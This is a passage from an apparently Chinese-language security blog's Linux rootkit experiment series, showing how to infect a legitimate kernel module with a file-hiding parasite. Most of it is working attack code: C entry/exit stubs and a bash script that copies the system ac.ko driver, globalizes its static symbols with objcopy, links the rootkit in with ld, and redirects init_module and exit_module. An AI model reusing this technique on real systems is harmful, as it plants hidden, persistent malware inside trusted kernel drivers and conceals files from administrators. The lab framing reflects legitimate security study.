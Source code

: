 - 怎样用一个模块中符号的值去替换另一个模块中符号的值？

好了，宿主有了，入口出口函数也有了，关键点到了，我们怎么实现模块间感染？

回忆一下，`.ko`文件是可重定位文件，这意味着我们可以通过`ld`链接它们！

又有一个问题，上面提到宿主模块的入口/出口函数都有`static`标记，那么在`ld`时我们的寄生模块是无法获得它们的符号信息的，怎么办呢？

太巧了，有一个`objcopy`工具（`kali`上自带了，别的系统上如果没有可以手动安装，也可以不用工具自己手动修改）可以帮忙修改符号的属性，比如把`static`属性去掉。

一切都刚刚好，开始行动！

我们使用[ 00022 实验](https://brant-ruan.github.io/sec/2017/05/11/LinuxRootkitExp-00022.html)中的隐藏文件的模块来作为寄生模块。入口和出口函数做适当修改：

{% highlight c %}
// fileHid.c
extern int __init acpi_ac_init(void);
extern void __exit acpi_ac_exit(void);

__init int fshid_init(void)
{
    acpi_ac_init();
	...
}

__exit void fshid_exit(void)
{
    acpi_ac_exit();
	...
}
// module_init(fshid_init);
// module_exit(fshid_exit);
{% endhighlight %}

提醒一下，最后要注释掉`module_init`和`module_exit`呀！

将上述模块编译为`fileHid.ko`

```
#!/bin/bash

cp /lib/modules/$(uname -r)/kernel/drivers/acpi/ac.ko ./

# 修改 static 为全局变量
objcopy ac.ko gac.ko --globalize-symbol acpi_ac_init --globalize-symbol acpi_ac_exit

ld -r gac.ko fileHid.ko -o infected.ko

setsym infected.ko init_module $(setsym infected.ko fshid_init)
setsym infected.ko exit_module $(setsym infected.ko fshid_exit)
```

搞定，测试一下：

![]({{ site.url }}/resources/pictures/linux-rkt-34.png)

有效！
